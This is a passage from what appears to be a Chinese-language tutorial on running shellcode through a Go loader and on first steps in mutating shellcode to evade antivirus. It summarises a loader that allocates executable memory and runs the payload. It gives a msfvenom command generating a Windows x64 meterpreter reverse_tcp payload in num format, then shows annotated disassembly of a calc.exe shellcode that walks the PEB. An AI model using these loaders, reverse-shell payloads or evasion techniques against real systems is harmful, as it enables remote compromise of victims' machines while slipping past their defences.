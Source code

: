> - shellcode_buf存储了Shellcode的字节码。
> 
> 5.错误检查函数:
> 
> - checkErr函数用于检查错误并在错误发生时退出程序。
> 
> 6.主函数main:
> 
> - 调用VirtualAlloc函数分配可执行、可读、可写的内存。
> 
> - 调用RtlCopyMemory函数将Shellcode复制到分配的内存中。
> 
> - 调用分配内存地址处的Shellcode，开始执行Shellcode。

使用go加载shellcode有两个问题需要注意，一是shellcode要生成**x64架构**的，二是shellcode需要生成**num格式**.

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=xxxxxxx lport=xxxx -a x64 -f num
```

# shellcode变形免杀初探

shellcode的本质是计算机可直接执行的机器码，比汇编语言更低一层的存在，对于msf生成的一段弹出calc.exe的shellcode，翻译成汇编语言如下所示

```assembly_x86
00446000 | FC               | cld                                   |
00446001 | E8 82000000      | call shellcodeanalyse.446088          |
00446006 | 60               | pushad                                |
00446007 | 89E5             | mov ebp,esp                           | upper stack
00446009 | 31C0             | xor eax,eax                           | eax:unsigned char * buf
0044600B | 64:8B50 30       | mov edx,dword ptr fs:[eax+30]         | PEB
0044600F | 8B52 0C          | mov edx,dword ptr ds:[edx+C]          | DllList
00446012 | 8B52 14          | mov edx,dword ptr ds:[edx+14]         | InMemoryOrderModuleList
00446015 | 8B72 28          | mov esi,dword ptr ds:[edx+28]         | Full_DLLNAME_Buffer
00446018 | 0FB74A 26        | movzx ecx,word ptr ds:[edx+26]        | MaximumLength
0044601C | 31FF             | xor edi,edi                           | edi:___argv
0044601E | AC               | lodsb                                 |
0044601F | 3C 61            | cmp al,61                             | upper(ch)
00446021 | 7C 02            | jl shellcodeanalyse.446025            |
00446023 | 2C 20            | sub al,20                             |
00446025 | C1CF 0D          | ror edi,D                             | (rotate)res>> 0xD
00446028 | 01C7             | add edi,eax                           | edi:___argv, eax:unsigned char * buf
0044602A | E2 F2            | loop shellcodeanalyse.44601E          |
0044602C | 52               | push edx                              | edi:hash of(dll name)
0044602D | 57               | push edi                              | edi:___argv
0044602E | 8B52 10          | mov edx,dword ptr ds:[edx+10]         | dllbase
00446031 | 8B4A 3C          | mov ecx,dword ptr ds:[edx+3C]         | nt_headers
00446034 | 8B4C11 78        | mov ecx,dword ptr ds:[ecx+edx+78]     | export_entry
00446038 | E3 48            | jecxz shellcodeanalyse.446082         | jump if ecx==0 judge if export
```
